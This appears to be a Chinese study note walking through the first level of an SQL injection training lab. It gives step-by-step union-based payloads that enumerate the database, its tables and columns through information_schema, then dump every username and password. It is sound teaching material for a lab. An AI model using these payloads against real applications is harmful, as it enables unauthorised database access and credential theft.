## less-1_basic_char
### 基本流程

目标：获取数据库中所有用户名和密码

1. 查找注入点

2. 判断字符型还是数字型----字符型

3. 字符型：找到闭合方式----可以通过单引号闭合 --+注释

4. group by 或者 order by 判断列数

5. 查询回显位 输入一个不存在的 id 使得无效信息不再显示： 

 ```sql
   id=-1' union select 1,2,3--+
 ```

6. 显示 2, 3 说明回显位是 2，3

 ```sql
   id=-1' union select 1,2,database() --+
 ```

7. 查看 database 名称拿到库名 security

8. version() 可以查看版本

9. 拿到表名和列名：information_schema：数据库中有 columns：列名集合表 和 tables：表名集合表 两个表，通过

```sql
union select 1,2,table_name from information_schema.tables where table_schema='security'
```

10. （'security' 甚至可以直接写 databases() ）

11. 用 group_concat() 来显示所有 table_name：

```sql
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'
```

最终拿到表名 users

12. ```sql
    union select 1,version(),group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'
    ```

     获取列名 **用数据库名和数据表名两个来定位所需要的列名** 得到 id username password

13. 回显 username 和 password：

14. ```sql
    union select 1,version(),group_concat(username,'%%%%%',password) from users
    ```



information_schema.tables 结构：
